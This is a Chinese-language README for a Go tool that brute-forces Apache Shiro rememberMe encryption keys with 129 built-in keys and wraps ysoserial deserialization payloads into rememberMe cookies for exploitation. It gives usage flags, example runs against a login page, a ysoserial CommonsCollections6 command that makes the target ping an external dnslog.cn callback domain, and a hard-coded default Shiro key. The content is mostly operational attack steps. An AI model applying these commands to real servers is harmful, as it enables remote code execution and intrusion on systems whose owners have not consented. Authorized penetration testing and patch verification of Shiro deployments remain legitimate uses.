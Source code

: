 # Shiro key检测



golang 开发，多平台支持。
为了适应不同目标不同网络情况，增加了多种http请求参数，如：指定请求超时时间、每次请求间隔时间、http代理。
内置了129个key，默认支持AES-CBC和AES-GCM两种模式检测。
支持对ysoserial 生成的payload进行加密，生成rememberMe字段，进行利用。

## 用法

```
Usage of ./ShiroKeyCheck:
  -content string
    	指定当是POST方法时 body里的内容
  -interval int
    	每个请求的间隔时间(s)
  -key string
    	指定key进行检测（默认CBC和GCM都会检测）
  -m string
    	指定请求方法 (默认是 "GET")
  -mode string
    	指定加密模块CBC或GCM  (只对-ser参数有效)
  -proxy string
    	设置http代理 e.g. http://127.0.0.1:8080
  -ser string
    	payload的字节码文件（可通过ysoserial生成）
  -timeout int
    	请求超时时间(s) (default 60s)
  -u string
    	目标url（必须）
  -ua string
    	User-Agent (default "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36")
```
### key检测

`ShiroKeyCheck -u http://172.19.28.20:8080/login.jsp`
![](image/1.png)

### 设置代理和请求间隔

`./ShiroKeyCheck -u http://172.19.28.20:8080/login.jsp -interval 10 -proxy http://127.0.0.1:7890`

![](image/2.png)

### 对ysoserial生成的payload 进行加密

`java -jar ysoserial.jar CommonsCollections6 "ping 18pa70.dnslog.cn" > aa.txt`

`./ShiroKeyCheck -key kPH+bIxk5D2deZiIxcaaaA== -mode cbc -ser aa.txt`

![](image/3.png)

## 编译

```
go build -ldflags="-s -w" -o ShiroKeyCheck main.go
CGO_ENABLED=0 GOOS=windows GOARCH=amd64 go build -ldflags="-s -w" -o ShiroKeyCheck.exe main.go
CGO_ENABLED=0 GOOS=linux GOARCH=amd64 go build -ldflags="-s -w" -o ShiroKeyCheck main.go
```





